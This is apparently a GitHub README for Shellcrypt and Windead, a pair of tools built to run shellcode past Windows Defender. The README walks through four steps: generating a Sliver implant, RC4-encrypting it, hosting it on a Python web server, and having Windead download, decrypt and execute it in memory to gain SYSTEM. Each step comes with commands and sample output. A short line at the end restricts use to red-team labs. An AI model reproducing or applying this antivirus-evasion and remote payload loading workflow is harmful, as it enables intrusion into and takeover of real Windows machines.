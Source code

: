 <div align="center">
  <h1>Windead & Shellcrypt</h1>
</div>

<p align="center">
  <img src="Windead & Shellcrypt.png" alt="logo" width="50%">
</p>

> [!CAUTION]
> **Windead** & **ShellCrypt** are like Tom & Jerry, they are inseparable.


# What are they good for ?

The main objective of these two tools is to be able to execute shellcode on machines protected by Windows Defender. 

- **Shellcrypt** is Jerry, it's the first step used to encrypt the shellcode using rc4 algorithm. You give it a file containing the raw shellcode, it gives you a nice gift, a file containing the encrypted shellcode.
- **WinDead** is Tom, it's the main character but without **Shellcrypt** it can't do anything. **WinDead** takes your encrypted shellcode, hosted on a remote web server, decrypt it and execute it.

# Usage

1 - You need to create a file containing your shellcode in raw format. It can be anything like a msfvenom output or a sliver session. For this example, let's take a sliver session :
```bash
sliver > generate --http 192.168.1.51 -f shellcode --os windows --name session

[*] Generating new windows/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 15s
[*] Encoding shellcode with shikata ga nai ... success!
[*] Implant saved to /opt/sliver/session.bin
```
\
2 - Once the file is created, you need to encrypt it using **Shellcrypt** :
```powershell
Shellcrypt.exe session.bin session.enc

[i] Shellcode retrieved with success !
[i] File created with success !
[i] The key (Keep it somewhere) : fb29b4fdb3e278542d0ef5c7d21c1c4153975c83609b6e281a67aee71e38b809
```
- `calc.bin` is the file containing the shellcode
- `calc.enc` is the name of the file you want to create, containing the encrypted shellcode

\
3 - Then, you have to host the file on a http web server, you can use the http.server module from python3 :
```bash
sudo python3 -m http.server 443
Serving HTTP on 0.0.0.0 port 443 (http://0.0.0.0:443/) ...
```

\
4 - Finally, you can now use **WinDead** to execute the shellcode on the target machine :
```powershell
Windead.exe 192.168.1.46 443 session.enc fb29b4fdb3e278542d0ef5c7d21c1c4153975c83609b6e281a67aee71e38b809

[i] Payload successfully retrieved! Size: 17353014 bytes
[i] Buffer allocated with success !
[i] Memory protection changed with success !
[i] Your shellcode has been executed with success ! Now, time to become SYSTEM =)
```
- `192.168.1.46` is the ip of the remote web server
- `443` is the port of the remote web server
- `session.enc` is the file containing the encrypted shellcode
- `fb29b4....` is the key that was printed out by **ShellCrypt**

# Caution

Please, don't be stupid. Use it only for doing red team lab or pro labs. This is the main goal of this tool, being able to bypass AV of these labs.
